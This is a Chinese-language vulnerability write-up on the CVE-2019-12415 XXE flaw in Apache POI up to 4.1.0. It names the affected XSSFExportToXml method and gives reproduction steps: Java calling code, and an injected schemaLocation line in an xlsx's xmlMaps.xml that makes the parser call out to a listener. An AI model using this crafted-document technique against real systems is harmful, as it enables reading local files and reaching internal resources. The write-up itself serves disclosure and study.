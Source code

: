 ```yaml
---
title: "（CVE-2019-12415）Apache POI <= 4.1.0 XXE漏洞"
id: zhfly2819
---
```


# （CVE-2019-12415）Apache POI <= 4.1.0 XXE漏洞

## 一、漏洞简介

### 什么是POI

Apache POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1 XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml#isValid 方法里，如果 XSSFExportToXml#exportToXML方法的第三个参数为true逐步进入 isValid触发XXE。

![image](../img/f7953d6108bf48d4f42da73ae502daec.png)

## 二、漏洞影响

Apache POI<=4.1.0

## 三、复现过程

```
XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true} 
```

然后下载这个xlsx文件。

```
https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx 
```

把文件替换为“ CustomXMLMappings.zip”并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在  标签里面加上一行代码。

```
<xsd:redefine schemaLocation="http://127.0.0.1:8080/"/> 
```

![image](../img/f29234ef86e9729991075c07da706799.png)

然后把xlsx释放出来的所有文件再用zip打包回去，改成 CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。

![image](../img/2180b7cafa30e90b33f411b54259894e.png)